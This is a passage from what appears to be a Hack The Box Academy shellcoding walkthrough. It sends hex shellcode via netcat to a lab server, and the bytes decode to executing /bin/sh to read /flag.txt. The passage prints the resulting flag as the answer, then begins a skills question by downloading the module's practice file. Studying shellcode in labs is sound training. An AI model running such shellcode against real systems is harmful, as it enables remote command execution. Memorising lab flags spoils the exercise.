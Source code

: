 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ nc 138.68.156.57 30673

48b82f62696e2f7368009950545f5266682d63545e52e80e000000636174202f666c61672e747874005657545e6a3b580f05

HTB{r3m073_5h3llc0d3_3x3cu710n}
```

Answer: `HTB{r3m073_5h3llc0d3_3x3cu710n}`

# Skills Assessment

## Question 1

### "Disassemble 'loaded\_shellcode' and modify its assembly code to decode the shellcode, by adding a loop to 'xor' each 8-bytes on the stack with the key in 'rbx'."

Students first need to download [loaded\_shellcode.zip](https://academy.hackthebox.com/storage/modules/85/loaded_shellcode.zip) and unzip it:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/85/loaded_shellcode.zip && unzip loaded_shellcode.zip
```

```
┌─[eu-academy-1]─[10.10.14.91]─[htb-ac413848@htb-a4bnsbhale]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/85/loaded_shellcode.zip && unzip loaded_shellcode.zip

--2022-12-05 05:55:31--  https://academy.hackthebox.com/storage/modules/85/loaded_shellcode.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.21.126, 104.18.20.126, 2606:4700::6812:157e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.21.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 591 [application/zip]
Saving to: ‘loaded_shellcode.zip’

loaded_shellcode.zip                    100%[=============================================================================>]     591  --.-KB/s    in 0s      

2022-12-05 05:55:31 (7.84 MB/s) - ‘loaded_shellcode.zip’ saved [591/591]

Archive:  loaded_shellcode.zip

  inflating: loaded_shellcode
```

